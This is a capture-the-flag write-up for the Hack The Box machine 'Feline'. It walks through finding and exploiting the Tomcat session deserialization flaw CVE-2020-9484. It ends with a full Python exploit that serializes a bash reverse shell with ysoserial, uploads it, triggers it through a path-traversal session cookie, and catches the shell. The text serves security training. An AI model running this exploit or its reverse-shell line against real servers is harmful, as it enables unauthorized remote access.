



HTB Feline

RECON
We start out with the usual nmap scan

The host is running apache tomcat 9.0.27 which is quite old, according to the apache site this was released back in 2019

The site is a mostly dead install with dummy links, but there is a VirusBucket section to upload file samples

I uploaded a sample to checkout the request in burp

The site is passing the email and filename through variables, and passing the file as an image. We can also see that the requests are sent to /upload.jsp to be evaluated.
Some digging into tomcat 9.0.27 revealed this is potentially vulnerable to a deserialization attack (CVE-2020-9484)

There is a poc linked in several of the cve info pages (CVE-2020-9484)
I attempted to run this, I was able to succesfully upload the groovy session, but unable to trigger the stack traceback.

This could be caused by an invalid upload path. The POC shows the default upload path to be /usr/local/tomcat/ though we have not confirmed this on our instance.
I started testing funky characters on the upload endpoint and discovered after passing an empty filename, I was able to trigger a stack traceback that revealed the upload path to us.

Now we can try to rerun the earlier POC exploit with our updated path (/opt/samples/uploads/). We are able to see the full stack traceback as expected, thus confirming the vulnerability.

EXPLOITATION
So far we have confirmed our target is vulnerable to CVE-2020-9484, and we are able to successfully trigger a stack traceback attempting to execute our file.
Since this is a vulnerability centered around insecure java deserialization, we will now need to serialize our payload. Some digging around google revealed YSoSerial to be the most popular tool.
The exploitation examples for YSoSerial that I was able to find all followed the same format. Generate a bash payload, serialize the payload with YSoSerial, and shoot it at the server (usually through burpsuite).
From here we need to do a couple things:
- Generate a bash rev shell one liner
- Use YSoSerial to serialize our command and create the .session file
- Start up a nc listener
- Curl command to upload our new .session file
- Curl command to execute our new .session file
- Interact with our nc listener

Now to run complex commands involving piping in java, the arguments need to be a string Array. This presents problems for us as our command is fairly complex.
Basically, our bash command will run and the arguments will run as seperate commands, which is not what we want. So we need to create a string array with our bash command.
I found a cool site here which formats your JRE payload for you

From here we have all the pieces we need to create a python script to exploit.

User.py
#!/usr/bin/python3
import base64, random
import netifaces as ni
from pwn import *
from termcolor import colored
ysoserial_path = '/opt/ysoserial-master-6eca5bc740-1.jar'
upload_url = 'http://feline.htb:8080/upload.jsp'
def main():
# Set IP, Port, and filename
(my_ip, my_port, fname) = get_vars()
print(colored('\n[+] Setting exploit info\n\t my_ip = ' + my_ip +'\n\t my_port = ' + my_port + '\n', 'red'))
# Create our .session file with JRE command from -- http://jackson-t.ca/runtime-exec-payloads.html
cmd = base64.b64encode(bytes('bash -i >& /dev/tcp/' + my_ip + '/' + my_port + ' 0>&1', 'utf-8')).decode('ascii')
jre_cmd = 'bash -c {echo,' + cmd + '}|{base64,-d}|{bash,-i}'
serialize_cmd = 'java -jar ' + ysoserial_path + ' CommonsCollections2 ' + '\"' + jre_cmd + '\" > ' + fname + '.session'
run_bash(serialize_cmd)
# Attempt to upload payload
cmd = 'curl -sS ' + '\'' + upload_url + '\'' + ' -F \"image=@' + fname + '.session\" > /dev/null'
run_bash(cmd)
# Startup pwntools listener
print(colored('Starting nc listener', 'green'))
l = listen(my_port)
print(colored('[+] Success', 'green'))
# Execute payload
cmd = 'curl -sS ' + '\'' + upload_url + '\'' + ' -H \"Cookie: JSESSIONID=../../../opt/samples/uploads/' + fname + '\" > /dev/null'
run_bash(cmd)
# Interact with our listener
print(colored('\nInteracting with low priv shell...', 'red'))
l.interactive()
# Set the following variables
# my_ip -> HTB tun0 IP
# my_port -> random port between 9000-9500
# fname -> random 6 letter filename
def get_vars():
ni.ifaddresses('tun0')
ip = ni.ifaddresses('tun0')[ni.AF_INET][0]['addr']
port = random.randrange(9000, 9500, 1)
letters = string.ascii_lowercase
fname = ''.join(random.choice(letters) for i in range(6))
return (str(ip), str(port), str(fname))
# Helper func to generate random filename
def get_random_string(length):
letters = string.ascii_lowercase
result_str = ''.join(random.choice(letters) for i in range(length))
return result_str
# Helper func to run bash commands in a pwntools process
def run_bash(cmd):
print(colored('\n' + str(cmd), 'green'))
p = process(cmd, shell=True)
err = p.recvall()
exit_code = p.poll()
if exit_code == 0:
print(colored('[+] Success', 'green'))
print('\n')
else:
print(colored('[-] Failed with exit code ' + str(exit_code), 'red'))
main()